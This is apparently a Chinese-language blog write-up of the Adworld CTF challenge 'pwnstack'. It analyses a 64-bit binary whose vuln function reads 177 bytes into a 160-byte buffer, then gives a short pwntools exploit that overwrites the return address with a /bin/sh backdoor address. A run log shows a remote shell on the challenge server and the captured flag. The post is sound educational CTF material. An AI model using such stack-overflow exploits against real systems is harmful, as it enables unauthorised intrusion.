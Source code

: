 ```yaml
---
title: 攻防世界-pwnstack题解
date: 2025-02-06 16:55:35
tags:
  - CTF
  - PWN
categories:
  - CTF
toc: true
style: |
  .post-content {
    font-family: "楷体", "STKaiti", serif;
    font-size: 18px;
  }
index_img: /images/bg2.png
#banner_img: /images/bg2.PNG
---
```



## 攻防世界-pwnstack题解

这是新博客的第一篇文章，感觉空荡荡的就当一次随笔

#### 一、简述

【题型】[PWN]()
【题目】`pwnstack`
【来源】[攻防世界](https://adworld.xctf.org.cn/challenges/list）
【思路】[栈溢出]()

#### 二、思路及过程

Step.1：先使用`checksec`和`file`了解有关这个文件的一些信息

```bash
# zer0-r1ng @ ring0rez-Laptop in ~/Challenge/Adworld/pwnstack/[16:27:17]
$ checksec pwn2
[*] '/Challenge/Adworld/pwnstack/pwn2'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No
# zer0-r1ng @ ring0rez-Laptop in ~/Challenge/Adworld/pwnstack/[16:30:13] C:1
$ file pwn2
pwn2: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=62aa40d64871e142a32827b4e403772e72f67fba, not stripped

```

我们从中可以得知它是一个64位的ELF格式文件

Step.2：放入IDA Pro中进行分析

```c++
int __fastcall main(int argc, const char **argv, const char **envp)
{
  initsetbuf(argc, argv, envp);
  puts("this is pwn1,can you do that??");
  vuln();
  return 0;
}
```

在里面我们发现了一个非常可疑的`puts` 和`vuln` 函数，点进去看看

```
__int64 vuln()
{
  char buf[160]; // [rsp+0h] [rbp-A0h] BYREF

  memset(buf, 0, sizeof(buf));
  read(0, buf, 0xB1uLL);
  return 0LL;
}
```

在vuln函数中我们可以看到函数分配了一个大小为 160 字节的缓冲区 `buf`，然后使用 `read` 函数从标准输入（文件描述符 0）读取数据到这个缓冲区中。然而，`read` 函数被指示读取最多 0xB1（即 177）字节的数据，这比缓冲区 `buf` 能够容纳的多，从而导致了缓冲区溢出的风险。

Step.5：shift+F12查看字符串发现`/bin/sh`，进入发现后门函数，查看地址（ctr+x）发现为：`0x400762`

```c
LOAD:0000000000400238		0000001C	C	/lib64/ld-linux-x86-64.so.2
LOAD:00000000004003B9		0000000A	C	libc.so.6
LOAD:00000000004003C8		00000006	C	stdin
LOAD:00000000004003D3		00000007	C	stdout
LOAD:00000000004003DA		00000007	C	stderr
LOAD:00000000004003E1		00000007	C	system
LOAD:00000000004003E8		00000008	C	setvbuf
LOAD:00000000004003F0		00000012	C	__libc_start_main
LOAD:0000000000400402		0000000F	C	__gmon_start__
LOAD:0000000000400411		0000000C	C	GLIBC_2.2.5
.rodata:0000000000400838	00000008	C	/bin/sh
.rodata:0000000000400848	0000001F	C	this is pwn1,can you do that??
.eh_frame:000000000040091F	00000006	C	;*3$\"
```

Step.6：构造exp并caught到flag

```
from pwn import *
p=remote("Host",Port)
payload=b'a'*0xa8+p64(0x400762)
p.sendline(payload)
p.interactive()
```

在上面的exp代码中使用了`pwntools`库并连接到远程服务器，随后我们构造了一个长度为”0xa8“并用'a'去填充和类型为二进制数据的payload，并覆盖返回地址到`0x400762`并将返回地址转换为小端序的64位进行表示

```bash
zer0-r1ng @ ring0rez-Laptop in ~/Challenge/Adworld/pwnstack/[16:50:22]
$ python3 exp.py
[+] Opening connection to 61.147.171.105 on port 54428: Done
[*] Switching to interactive mode
this is pwn1,can you do that??
$ ls
bin
dev
flag
lib
lib32
lib64
pwn2
$ cat flag
cyberpeace{9d0526386a432e6fcf65858cd1ee804d}
```



<script src="https://giscus.app/client.js"
        data-repo="solkatt-cn/solkatt-cn.github.io"
        data-repo-id="R_kgDONzaTTQ"
        data-category="Announcements"
        data-category-id="DIC_kwDONzaTTc4Cpqn7"
        data-mapping="pathname"
        data-strict="0"
        data-reactions-enabled="1"
        data-emit-metadata="0"
        data-input-position="top"
        data-theme="preferred_color_scheme"
        data-lang="zh-CN"
        crossorigin="anonymous"
        async>
</script>
